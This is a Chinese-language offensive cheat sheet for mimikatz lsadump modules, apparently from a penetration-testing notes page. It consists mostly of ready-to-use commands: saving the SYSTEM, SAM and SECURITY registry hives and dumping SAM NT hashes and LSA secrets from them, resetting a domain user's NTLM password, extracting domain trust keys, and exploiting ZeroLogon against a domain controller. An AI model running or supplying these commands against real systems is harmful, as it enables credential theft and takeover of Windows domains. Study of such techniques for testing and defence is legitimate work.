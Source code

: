 转储本地安全账户管理器（SAM）NT的哈希值

```
mimikatz # lsadump::sam
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

执行离线转存
```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```

## secrets
可以用来从注册表中转储LSA的secrets。它检索SysKey来解密Secrets条目
```
mimikatz # lsadump::secrets
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\security security.hive
```

执行离线转存
```
mimikatz # lsadump::secrets /system:system.hive /sam:security.hive
```

## setntlm
可以用来在不知道用户当前密码的情况下执行密码重置。在活动目录访问控制（ACL）滥用情况下，它可能很有用
```
mimikatz # lsadump::setntlm /user:optimus /password:VeryStrongPass1! /server:dc.hacklab.local
```

## trust

dump出域和林的信任秘钥
```
mimikatz # lsadump::trust /patch
```

## zerologon
检测并利用ZeroLogon漏洞
```
mimikatz # lsadump::zerologon /target:dc.hacklab.local /account:dc$
```
